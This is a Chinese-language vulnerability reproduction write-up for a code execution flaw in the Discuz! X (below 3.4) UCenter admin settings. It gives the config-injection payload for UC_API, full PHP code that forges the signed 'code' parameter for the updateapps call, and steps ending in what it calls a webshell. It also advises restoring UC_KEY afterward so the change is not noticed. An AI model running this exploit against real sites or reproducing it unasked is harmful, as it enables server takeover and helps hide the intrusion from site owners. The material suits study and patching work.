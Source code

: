 ## Discuz! X < 3.4 uc_center 后台代码执行漏洞

### 一、漏洞简介

### 二、漏洞影响

Discuz! X < 3.4

### 三、复现过程

进入后台站长-Ucenter设置，设置UC_KEY=随意(一定要记住，后面要用),


```
UC_API= http://www.baidu.com/discuz34/uc_server');phpinfo();//
```

![](images/2020_06_13/15920631061126.png)

![](images/2020_06_13/15920631179734.png)


成功写进配置文件，这里单引号被转移了，我们接下来使用UC_KEY(dz)去调用api/uc.php中的updateapps函数更新UC_API。

利用UC_KEY(dz) 生成code参数，使用过UC_KEY(dz) GetWebShell的同学肯定不陌生，这里使用的UC_KEY(dz)就是上面我们设置的。


```php
<?php
$uc_key="123456";//
$time = time() + 720000;
$str = "time=".$time."&action=updateapps";
$code = authcode($str,"ENCODE",$uc_key);
$code = str_replace('+','%2b',$code);
$code = str_replace('/','%2f',$code);
echo $code;

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
  $ckey_length = 4;
  $key = md5($key != '' ? $key : '123456');
  $keya = md5(substr($key, 0, 16));
  $keyb = md5(substr($key, 16, 16));
  $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

  $cryptkey = $keya.md5($keya.$keyc);
  $key_length = strlen($cryptkey);

  $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
  $string_length = strlen($string);

  $result = '';
  $box = range(0, 255);

  $rndkey = array();
  for($i = 0; $i <= 255; $i++) {
    $rndkey[$i] = ord($cryptkey[$i % $key_length]);
  }

  for($j = $i = 0; $i < 256; $i++) {
    $j = ($j + $box[$i] + $rndkey[$i]) % 256;
    $tmp = $box[$i];
    $box[$i] = $box[$j];
    $box[$j] = $tmp;
  }

  for($a = $j = $i = 0; $i < $string_length; $i++) {
    $a = ($a + 1) % 256;
    $j = ($j + $box[$a]) % 256;
    $tmp = $box[$a];
    $box[$a] = $box[$j];
    $box[$j] = $tmp;
    $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
  }

  if($operation == 'DECODE') {
    if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
      return substr($result, 26);
    } else {
      return '';
    }
  } else {
    return $keyc.str_replace('=', '', base64_encode($result));
  }
}
?>
```

将生成的数据带入GET请求中的code 参数，发送数据包

![](images/2020_06_13/15920631393557.png)


访问 `http://url/discuz34/config/config_ucenter.php` 代码执行成功

![](images/2020_06_13/15920631561874.png)


![](images/2020_06_13/15920631600417.png)


到此成功GetWebShell，在这个过程中，有一点需要注意的是，我们修改了程序原有的UC_KEY(dz)，成功GetWebShell以后一定要修复，有2中方法：

* 从数据库中读取authkey(uc_server)，通过UC_MYKEY解密获得UC_KEY(dz)，当然有可能authkey(uc_server)就是UC_KEY(dz)。
* 直接进入Ucenter后台修改UC_KEY，修改成我们GetWebShell过程中所设置的值。